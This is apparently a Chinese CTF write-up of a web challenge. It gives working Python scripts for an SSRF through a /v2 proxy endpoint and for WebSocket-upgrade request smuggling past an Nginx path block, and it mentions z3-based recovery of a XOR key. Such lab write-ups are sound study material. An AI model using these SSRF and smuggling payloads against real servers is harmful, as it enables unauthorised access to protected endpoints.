

比赛没打出来，结束后没找到 WP，自己复现的。

首先是[初始题目](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-main-go)

初始的 Proxy 很简单，Nginx 层面对 `/v1` 路径的请求做了限制，但是 `/v2` 实现了一个 Proxy 服务，SSRF 直接请求 `/v1/api/flag` 即可拿到 flag。

```python
import requests

target = "http://47.93.55.85:28743"

url = "http://127.0.0.1:8769/v1/api/flag"

res = requests.post(target + "/v2/api/proxy", json={
    "url": url,
    "method": "POST",
})

print(res.text)
```

不出意料很快就是一个 [Revenge](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-main_revenge-go)，这次加了一坨加密，还过滤了请求的结果不能包含 `flag`。

于是一个很直觉的想法就是先绕过这个加密，然后再绕过对 `flag` 的过滤。加密确实可以绕过，由于使用的异或加密，可以选择明文攻击下，用 z3 约束求解即可（不懂密码学，可能有更好的办法）。第一次全 a 的似乎约束不够强，再加了个全 b 的约束就可以了。
代码：[https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-z3_key-py](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-z3_key-py)

不过剩下这个过滤就没那么直观了，绕了半天没绕过去。
回到代码审计，事实上代码中有一些比较突兀的地方。Nginx [配置文件](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-proxy-conf)在没有 Websocket 需求的情况下却配置了 Connection Upgrade 的转发，事实上我们可以通过这一点实现请求走私，绕过 Nginx 层面对 `/v1/api/flag` 的过滤。
参考：[websocket-smuggle](https://github.com/0ang3el/websocket-smuggle)
一图以蔽之：


Golang 实现的 Proxy 服务使用了目的地址的响应代码返回，只要我们发起 Upgrade 请求，同时响应代码为 101，就可以欺骗 Nginx 完成了 Websocket 连接，实现请求走私。

代码：
```python
import socket

target = "http://127.0.0.1:5870"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 5870))
content = '{"url": "http://192.168.31.17:5000/", "method": "get"}'
# 起一个返回 101 http code 的 服务器
payload = f"""POST /v2/api/proxy HTTP/1.1
Host: 127.0.0.1:5870
Upgrade: websocket
Connection: Upgrade
Content-Length: {len(content)}
Content-Type: application/json

{content}
"""
s.send(payload.encode())
print(s.recv(1024))
payload = f"""POST /v1/api/flag HTTP/1.1
Host: 127.0.0.1:5870
Content-Length: {len(content)}
Content-Type: application/json

{content}
"""
s.send(payload.encode())
print(s.recv(1024))
```